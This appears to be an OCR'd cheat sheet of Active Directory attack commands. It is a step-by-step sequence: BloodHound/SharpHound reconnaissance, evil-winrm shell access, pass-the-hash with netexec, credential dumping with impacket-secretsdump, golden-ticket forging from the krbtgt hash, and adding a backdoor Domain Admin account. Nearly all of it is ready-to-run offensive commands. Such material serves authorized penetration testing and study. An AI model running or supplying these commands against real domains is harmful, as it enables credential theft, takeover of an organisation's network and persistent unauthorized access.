 ## Collect BloodHound data from Kali
```bash
# Add -ns $IP if DNS resolution issues
bloodhound-python -d domain.local -u username -p password -gc $IP -c all
```

## Run SharpHound on Windows target for BloodHound
```cmd
# Add -d domain.local if needed
.\SharpHound.exe -c All
```

## Test WinRM access with valid credentials
```bash
# netexec for quick test OR evil-winrm for interactive shell
evil-winrm -i $IP -u username -p password
```

## Pass-the-hash with NetExec after obtaining NTLM hash
```bash
# Change protocol: smb OR winrm
netexec smb $IP -u username -H aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42
```

## Test cracked service account credentials across domain
```bash
# Test smb --shares OR winrm for shell access
netexec smb $IP -u serviceaccount -p crackedpassword --shares
```

## Dump domain credentials with secretsdump
```bash
# Add -just-dc for DC hashes only OR -just-dc-ntlm for NTLM only
impacket-secretsdump domain.local/username:password@$IP
```

## Verify domain admin privileges
```cmd
net group "Domain Admins" /domain
```

## Create golden ticket with krbtgt hash
```bash
impacket-ticketer -nthash aad3b435b51404eeaad3b435b51404ee -domain domain.local -domain-sid S-1-5-21-1234567890-1234567890-1234567890 administrator
```

## Create persistent domain admin account
```cmd
net user backdoor Password123! /add /domain
net group "Domain Admins" backdoor /add /domain
```
